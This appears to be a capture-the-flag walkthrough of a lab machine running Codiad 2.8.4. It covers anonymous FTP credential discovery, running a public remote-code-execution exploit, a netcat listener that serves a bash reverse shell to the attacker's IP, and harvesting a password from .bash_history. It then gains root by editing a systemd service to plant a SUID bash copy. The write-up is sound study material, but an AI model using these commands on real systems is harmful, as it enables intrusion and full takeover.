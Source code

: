 
##Footprinting
first of all as always, we begin with an nmap scan 
```
Command used: nmap -sC -sV -p- -oN scan -T4 -P0 10.10.45.157
```

so from the result of our scan we can see that we a couple of ports open on our target machine.
- 21 - FTP
- 22 - SSH
- 80 -HTTP(Apache)
- 62337 - (Apache)
![image](/posts/res/ide_1.png)

##Enumerating FTP(port 21)

so on port 21 we have anonymous login enabled. lets start by checking that out.
```
Command used: ftp <target IP>
Username: Anonyomus
Password: <Leave_blank>
```

![image](/posts/res/ide_2.png)
from listing all directories we found a file called ***-*** let's download it to our machine.
```
command used: cd ...
get -
```

now lets cat out the content of the file :
```
cp - file
cat file
```
![image](/posts/res/w.png)
so from the content of the file we now have a Username and password.
username: ***john***
password: ***password***

##Enumerating HTTP(Port 80 and 62337)
since we have a web server running on port 80, lets head over to our web browser.
![image](/posts/res/ide_3.png)

we have a default server page. so let's have try to enumerate for sub directories using Gobuster to see what we can find.

```
command used: gobuster dir -u http://10.10.164.209/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

```
so i ran the scan for a while and found nothing interesting now lets move to the next apache server.

so heading over to the server on our browser we see a login screen ![image](/posts/res/ide_5.png)


earlier on from our nmap scan we could the that the server runs the following application ***Codiad 2.8.4*** . let's try  looking up this application on google.
![image](/posts/res/ide_6.png)
from our result we can see that this version of the application is vulnerable to ***Remote Code Execution***. now using this information let's try to get a foothold on the target machine.

we can download the exploit from here [[https://www.exploit-db.com/exploits/49705]]  or you can simply use the searchsploit tool on your kali machine.
![image](/posts/res/ide_7.png)

to get the exploit  script using searchsploit use the following command:
```
 searchsploit -m 49705 
```

![image](/posts/res/ide_8.png)

to run this exploit code we can make use of the following command: 
```
python 49705.py http://10.10.164.209:62337/ john password <Target_IP> 4444 linux

```
![image](/posts/res/ide_9.png)
next we must ensure we have set up our listener using netcat: 
command used : 
```
echo 'bash -c "bash -i >/dev/tcp/<local_machine_IP>/4445 0>&1 2>&1"' | nc -lnvp 4444

```
![image](/posts/res/ide_10.png)
setup another listener 
```
command used: nc -lnvp 4445
```

with all this setup we can now run the exploit.
![image](/posts/res/ide_11.png)
we have successfully gained a shell but we faced a challenge while trying to get the user flag. it appears that the user.txt file can only be access by the owner of the file called "drac". now lets find a way to horizontally escalate our privilege to the user drac.

to do this we can check the bash history file located in drac's directory 

```
command used: cd drac
ls -la
cat .bash_history
```
![image](/posts/res/ide_12.png)
we found drac's password in the history file now let's try to login via ssh with  the credentials.

![image](/posts/res/ide_13.png)
we successfully logged in as drac now let's view the file 
```
command used: cat user.txt
```
![image](/posts/res/ide_14.png)

##Privilege Escalation 
so if we run the id command we can see that drac is a part of the sudo group.- `drac` can run the following command with sudo – `/usr/sbin/service vsftpd restart`
- `drac` can write to the vsftpd.service file – `/lib/systemd/system/vsftpd.service`

- `/etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf` contains `AdminIdentities=unix-group:sudo;unix-group:admin` (Default in Ubuntu)![image](/posts/res/ide_15.png)

Since 'drac' belongs to the sudo group, we can utilize Ubuntu's default Polkit rule to elevate our privileges.

now since we have privilege to edit the vsftpd service file, we can modify the file to run the following command:
- `cp /bin/bash /tmp/root_shell`
- `chmod +xs /tmp/root_shell`
This sequence of commands duplicates `/bin/bash` to `/tmp/root_shell` and configures the Set User ID (SUID) bit on it. This would enable us to execute the binary with the privileges of its owner, namely root.

Here is the revised process:

1. Edit the file located at `/lib/systemd/system/vsftpd.service`.
2. Insert the following code into the file:


```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/root_shell; chmod +xs /tmp/root_shell'
#ExecReload=/bin/kill -HUP $MAINPID
#ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

![image](/posts/res/ide_16.png)

once you have made changes to the file save and restart the daemon using the following command: `systemctl daemon-reload`
![image](/posts/res/ide_17.png)

As a result, we were able to initiate our customized service by executing `sudo /usr/sbin/service vsftpd restart`. As anticipated, a file named `root_shell` was present within the `/tmp` directory. We utilized this file to spawn a root shell by executing `./tmp/root_shell -p`.


![image](/posts/res/ide_18.png)

and finally we are root!!!!!
